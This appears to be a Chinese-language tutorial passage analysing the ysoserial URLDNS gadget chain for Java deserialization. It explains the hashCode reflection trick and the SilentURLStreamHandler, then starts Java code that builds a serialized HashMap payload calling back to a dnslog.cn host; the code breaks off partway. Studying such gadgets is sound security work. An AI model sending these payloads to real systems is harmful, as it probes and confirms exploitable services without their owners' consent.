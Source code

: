 简述一下构造这个`Gadget`的过程，其实就相当于构造一个`payload`的序列化过程，使得生成的`payload`在利用时可以被成功反序列化。
初始化⼀个 `java.net.URL` 对象，作为 `key` 放在 `java.util.HashMap` 中；然后，设置这个 `URL` 对象的 `hashCode` 为初始值 `-1` ，这样反序列化时将会重新计算其 `hashCode` ，才能触发到后⾯的DNS请求，否则不会调⽤ `URL->hashCode()` 。

另外，`ysoserial`为了防⽌在⽣成`Payload`的时候也执⾏了URL请求和DNS查询，所以重写了⼀ 个 `SilentURLStreamHandler` 类，这不是必须的。


最后，还有几个问题要解决。

1、为什么生成序列化流的时候要通过反射将 `hashCode` 的值设为`-1`？
因为 `hashmap` 在进行数据存储的过程中（使用`put`方法时）也调用到了 `putVal` 函数，这其中会进行 `hashcode` 的计算，经过计算之后原本初始化的 `-1` 会变成计算后的值，所以要通过反射再次修改值。


在序列化流的生成位置，也可以通过反射来查看`hashCode`中间的变化。

![image](https://user-images.githubusercontent.com/84888757/204577929-cfcc4631-d55c-475f-b5a9-743ed324b3fa.png)



2、ysoserial为什么要重写`openConnection` 和 `getHostAddress` 这两个方法？

还是和hashmap存数据的时候会计算一次`hashcode`有关，在 `hashmap` 存数据的时候会计算URL对象的`hashcode`值，也就是会调用`URL.hashCode()`方法，这样的话，按照之前的分析就会发起一次DNS请求，所以为了屏蔽这个请求我们将用于发起请求的两个关键方法重写，跳过请求部分。
`ysoserial.payloads.URLDNS.SilentURLStreamHandler`

![image](https://user-images.githubusercontent.com/84888757/204579048-5b65be4d-64de-4ebd-9f04-286b4b785c82.png)



3、在CC6的链中也有和URLDNS相同的部分，就是通过计算 `hashcode` 触发构造链。


## 自己编写URLDNS相关代码
### 序列化代码
`UrlDnsSer.java`

```
package org.vulhub;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.net.URL;

public class UrlDnsSer {

    public static void main(String[] args) throws Exception {
        //初始化一个HashMap的时候，hashCode默认为-1
        HashMap map = new HashMap();
        //初始化⼀个 java.net.URL 对象
        URL url = new URL("http://666.mdrzq8.dnslog.cn");
        //获取URL类的hashCode属性
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        // 修改访问权限，必须使用setAccessible方法设置为True才能修改private属性
        f.setAccessible(true);
        // 设置hashCode值为123，这里可以是任何不为-1的数字。先这样设置是因为HashMap的put方法也会调用hash(key)方法，
        // 如果不这样的话，会在序列化的时候调用put方法然后调用hash(key)，然后直接进行了dnslog。
        f.set(url,123);
        System.out.println(url.hashCode());
        
        //往HashMap中添加Key为URL对象,hashCode会变成一个对URL对象进行计算过的值
        //导致直接进行了DNS请求
        //如果序列化之前不重新设置hashCode值为-1，则反序列化无法成功触发
        map.put(url,"123");
        
        // 通过反射，改变已有对象的属性
        // 将url的hashCode重新设置为-1。确保在反序列化时能够成功触发
```
